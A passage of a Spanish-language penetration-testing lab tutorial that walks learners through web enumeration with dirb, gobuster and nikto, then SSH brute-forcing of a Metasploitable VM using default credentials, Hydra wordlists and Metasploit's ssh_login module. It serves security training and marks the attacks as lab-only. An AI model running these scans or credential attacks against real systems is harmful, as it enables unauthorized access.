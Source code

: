 1. **Accede al sitio web**:
   - En Kali, abre Firefox
   - Navega a `http://IP_METASPLOITABLE`

2. **Enumera directorios**:
   ```bash
   # Busca directorios ocultos
   dirb http://IP_METASPLOITABLE
   
   # O usa gobuster (más moderno)
   gobuster dir -u http://IP_METASPLOITABLE -w /usr/share/wordlists/dirb/common.txt
   ```

3. **Escanea vulnerabilidades web**:
   ```bash
   # Usa nikto para análisis de vulnerabilidades
   nikto -h http://IP_METASPLOITABLE
   ```

### Ejercicio 3: Ataque SSH (Nivel Intermedio)

**Objetivo**: Practicar ataques de fuerza bruta

⚠️ **IMPORTANTE**: Solo hazlo en este laboratorio controlado

1. **Ataque manual**:
   ```bash
   # Intenta login con credenciales comunes
   ssh msfadmin@IP_METASPLOITABLE
   # Contraseña: msfadmin
   ```

2. **Ataque automatizado con Hydra**:
   ```bash
   # Crea un archivo con usuarios comunes
   echo "admin\nroot\nmsfadmin\nuser" > usuarios.txt
   
   # Crea un archivo con contraseñas comunes
   echo "admin\npassword\n123456\nmsfadmin\ntoor" > passwords.txt
   
   # Ejecuta el ataque
   hydra -L usuarios.txt -P passwords.txt ssh://IP_METASPLOITABLE
   ```

3. **Usando Metasploit**:
   ```bash
   # Abre Metasploit
   msfconsole
   
   # Dentro de Metasploit:
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS IP_METASPLOITABLE
   set USER_FILE usuarios.txt
   set PASS_FILE passwords.txt
   run
   ```

